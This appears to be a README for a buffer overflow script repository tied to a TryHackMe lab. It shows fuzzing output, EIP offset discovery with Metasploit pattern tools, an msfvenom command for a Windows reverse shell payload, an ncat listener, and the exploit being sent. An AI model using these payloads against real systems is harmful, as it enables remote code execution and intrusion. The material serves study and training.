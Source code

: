 # script_to_bufferOverFlow

scripts for fuzzing, EIP control, finding badchars and exploit for exploiting a bufferoverflow

# Fuzzing 

```shell
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
.
.
.
Fuzzing crashed at 781 bytes
```

# Find Offset

```shell
❯ msf-pattern_create -l 2000

```

```shell
❯ python3 findOffset.py
Sending evil buffer...
Done!

```

```shell
❯ msf-pattern_offset -q 6F43396E
[*] Exact match at offset 1978

```

# crashReplication Controlling EIP

[Crash Replication Controlling EIP](https://b0ysie7e.gitbook.io/articulos/write-up/tryhackme/2024-02-21-bufferoverflowprep#control-del-eip)

# expliot Buffer

```shell
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x07\x2e\xa0" -f c
```

```shell
rlwarp ncat -lvnp 443
```

```shell
❯ python3 exploitBuffer.py
Sending evil buffer...
Done!
```


[Example](https://b0ysie7e.gitbook.io/articulos/write-up/tryhackme/2024-02-21-bufferoverflowprep#generando-payload)

